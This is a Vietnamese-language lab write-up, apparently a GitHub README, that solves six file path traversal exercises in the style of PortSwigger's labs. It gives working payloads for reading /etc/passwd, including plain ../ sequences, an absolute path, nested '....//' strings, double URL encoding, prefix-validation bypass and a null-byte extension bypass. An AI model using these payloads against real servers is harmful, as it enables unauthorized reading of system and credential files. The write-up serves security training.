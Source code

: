 # 1. Filepath traversal, simple case
Click vào ảnh một sản phẩm, ta thấy URL của ảnh có dạng `/image?filename=63.jpg`. Như vậy, ta thử tấn công directory traversal bằng cách thay URL thành `/image?filename=../../../../../etc/passwd`

Kết qủa, ta được nội dung file /etc/passwd

![image](https://user-images.githubusercontent.com/103978452/202731585-d3bc8547-7401-4784-b688-c4cbb4f75815.png)

# 2. File path traversal, traversal sequences blocked with absolute path bypass
Thử thay đổi filename giống như bài #1, ta thấy không thành công và hiển thị lỗi "No such file"

![image](https://user-images.githubusercontent.com/103978452/202727508-3ebd9a16-b76e-4458-9755-30ec6c8f00c7.png)

Tiếp theo, ta thử dùng absolute path `/image?filename=/etc/passwd`. Kết quả, nội dung file /etc/passwd đã được hiển thị

![image](https://user-images.githubusercontent.com/103978452/202727704-7315b7c3-3060-4ad2-9675-5b90b596b93e.png)

# 3. File path traversal, traversal sequences stripped non-recursively
Trong URL một file ảnh bất kỳ, thử thay filename sử dụng relative path hay absolute path như trong bài #1 và #2 thì đều thất bại.

Ta thử `filename=../73.jpg` thì thấy trả về kết quả giống với `/image?filename=73.jpg`. Như vậy, có thể server đã ngăn directory traversal bằng cách bỏ đi những chuỗi `../`. Trong trường hợp đó, ta sẽ thay filename như sau: `/image?filename=....//....//....//....//....//etc/passwd`: sau khi bị xóa đi những đoạn `../`, nó sẽ trở thành `/image?filename=../../../../../../etc/passwd`

Kết quả, ta có được nội dung file /etc/passwd

![image](https://user-images.githubusercontent.com/103978452/202730889-c4c4c85f-e7fd-45c8-b941-7d28b621df29.png)

# 4. File path traversal, traversal sequences stripped with superfluous URL-decode
Trong URL một file ảnh bất kỳ, sau một vài lần thử thay filename thì ta phát hiện server sẽ xóa các ký tự `.` và `/` trong URL (`/image?filename=.././././//.././5.jpg` và `/image?filename=5.jpg` trả về kết quả như nhau)

Ta thử dùng URL encode để bypass: `/image?filename=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%65%74%63%2F%70%61%73%73%77%64` (tương ứng `/image?filename=../../../../etc/passwd`) thì kết quả trả về "No such file"

Thử dùng double URL encode để bypass: `/image?filename=%25%32%45%25%32%45%25%32%46%25%32%45%25%32%45%25%32%46%25%32%45%25%32%45%25%32%46%25%32%45%25%32%45%25%32%46%25%36%35%25%37%34%25%36%33%25%32%46%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34` (tương ứng `../../../../etc/passwd` sau khi double decode). Kết quả, ta thu được nội dung file /etc/passwd

![image](https://user-images.githubusercontent.com/103978452/202734712-1102bbc1-8af5-4609-911b-e7bd8cd7bdb5.png)

# 5. File path traversal, validation of start of path
Ta thấy URL một image bất kỳ có dạng `/image?filename=/var/www/images/11.jpg`. Thử thay đổi phần '/var/www/images/' thì thấy kết quả không thành công.

Tuy nhiên, ta có thể đơn giản trở về root directory bằng cách sử dụng `/var/www/images/../../../etc/passwd`. Kết quả, ta thu được nội dung file /etc/passwd

![image](https://user-images.githubusercontent.com/103978452/202736241-b985df81-b787-46b2-ad1b-636c515c8125.png)

# 6. File path traversal, validation of file extension with null byte bypass
Ta thấy một URL của một image bất kỳ có dạng `/image?filename=65.jpg`. Sử dụng relative path hay absolute path tới /etc/passwd đều trả kết quả "No such file".

Thử sử dụng null byte để bypass: `/image?filename=../../../../etc/passwd%00.png`, ta thu được kết quả thành công

![image](https://user-images.githubusercontent.com/103978452/202738203-d56c957e-82f3-48a2-9605-a07c015878b7.png)
